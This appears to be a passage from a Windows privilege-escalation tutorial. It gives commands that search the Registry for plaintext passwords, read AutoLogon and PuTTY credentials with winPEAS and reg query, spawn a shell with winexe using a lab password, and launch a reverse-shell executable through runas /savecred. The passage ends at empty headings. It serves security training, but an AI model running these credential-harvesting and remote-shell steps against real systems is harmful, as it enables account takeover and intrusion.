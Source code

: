 The Windows Registry is used by many apps to store configuration options. Passwords are sometimes stored in plaintext in the Registry.

#### Searching the Registry for Passwords

The commands below will look for entries and values in the registry that contain the word "password."

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Because this frequently yields a large number of results, it is often better to search in well-known areas.

#### Registry Passwords Privilege Escalation Methodology

1.  Use winPEAS to check common password locations:

    ```
    .\winPEASany.exe quiet filesinfo userinfo
    ```
2.  The results show both AutoLogon credentials and Putty session credentials for the admin user&#x20;

    `(admin/r4nd0mp44ss)`.
3.  We can verify these manually:

    ```
    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
    ```
4.  On our host, we can use the winexe command to spawn a shell using these credentials:

    ```
    winexe -U 'admin%r4nd0mp44ss' //192.168.1.22 cmd.exe
    ```

### Saved Credentials

The runas command in Windows allows users to execute commands with the permissions of other users. This normally necessitates knowing the password of the other user. Users can save their credentials to the system in Windows, and these saved credentials can be exploited to get around this requirement.

#### Saved Credentials Privilege Escalation

1.  You can check for saved credentials with winPEAS:

    ```
    > .\winPEASany.exe quiet cmd windowscreds
    ```
2.  Using the following command, we can manually verify this:

    ```
    > cmdkey /list
    ```
3. As the admin user, we may utilize the saved credentials to run any command. On your host (e.g Kali or Parrot), start a listener and execute the reverse shell executable:
4. ```
   > runas /savecred /user:admin C:\PrivEsc\reverse.exe
   ```

### SSH Keys in Registry

### Passwords in Memory&#x20;

   ```